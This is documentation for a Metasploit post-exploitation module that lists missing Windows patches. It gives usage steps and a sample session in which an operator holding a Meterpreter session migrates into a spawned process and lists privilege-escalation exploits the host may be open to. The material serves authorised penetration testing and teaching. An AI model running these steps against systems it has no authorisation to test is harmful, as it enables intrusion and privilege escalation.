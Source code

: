 
## Vulnerable Application

  This module will attempt to enumerate which patches are applied to a
  windows system based on the result of the WMI query: SELECT HotFixID
  FROM Win32_QuickFixEngineering.

## Verification Steps

  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/enum_patches```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options

  **KB**

  A comma separated list of KB patches to search for.

  **MSFLOCALS**

  Search for missing patches for which there is a MSF local module.

  **SESSION**

  The session to run this module on.

## Scenarios

### Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.10:49223) at 2019-12-14 08:37:46 -0700

  msf > use post/windows/gather/enum_patches
  msf post(windows/gather/enum_patches) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/enum_patches) > run
    [-] Known bug in WMI query, try migrating to another process
    [*] Post module execution completed
  msf post(windows/gather/enum_patches) > sessions 1
    [*] Starting interaction with 1...
  meterpreter > run post/windows/manage/migrate

    [*] Running module against TEST-PC
    [*] Current server process: Explorer.EXE (1908)
    [*] Spawning notepad.exe process to migrate to
    [+] Migrating to 3992
    [+] Successfully migrated to process 3992
  meterpreter > background
    [*] Backgrounding session 1...
  msf post(windows/gather/enum_patches) > run

    [+] KB2871997 is missing
    [+] KB2928120 is missing
    [+] KB977165 - Possibly vulnerable to MS10-015 kitrap0d if Windows 2K SP4 - Windows 7 (x86)
    [+] KB2305420 - Possibly vulnerable to MS10-092 schelevator if Vista, 7, and 2008
    [+] KB2592799 - Possibly vulnerable to MS11-080 afdjoinleaf if XP SP2/SP3 Win 2k3 SP2
    [+] KB2778930 - Possibly vulnerable to MS13-005 hwnd_broadcast, elevates from Low to Medium integrity
    [+] KB2850851 - Possibly vulnerable to MS13-053 schlamperei if x86 Win7 SP0/SP1
    [+] KB2870008 - Possibly vulnerable to MS13-081 track_popup_menu if x86 Windows 7 SP0/SP1
    [*] Post module execution completed
  ```
